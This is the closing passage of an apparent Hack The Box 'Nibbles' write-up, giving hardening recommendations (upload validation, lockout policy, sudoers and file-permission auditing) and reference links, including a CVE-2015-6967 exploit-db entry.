3. **Validate uploaded files server-side** by content/MIME type (not just extension), store uploads outside the webroot when possible, and strip execute permissions from upload directories.
4. **Enforce a strong password policy and account lockout/rate limiting** on admin panels to prevent credential guessing.
5. **Harden sudoers entries:** any script granted `NOPASSWD` execution as root must be owned by `root`, writable only by `root` (e.g. `750`), and ideally located outside user-writable directories - otherwise the privilege boundary is meaningless.
6. **Audit file permissions regularly** (e.g. via CIS benchmarks or configuration management tooling) to catch world-writable files referenced by sudoers or cron.

---

## References

- **Machine:** https://www.hackthebox.com/machines/nibbles
- **CVE-2015-6967 - Nibbleblog < 4.0.5 Arbitrary File Upload:** https://www.exploit-db.com/exploits/38489
- **Shells, TTY, and SSH - A Practical Guide for Offensive Security - cyb3rhurr1c4n3 (myself):** https://cyb3rhurr1c4n3.github.io/cyb3rhurr1c4n3-blog/technical-blogs/shells-tty-and-ssh/
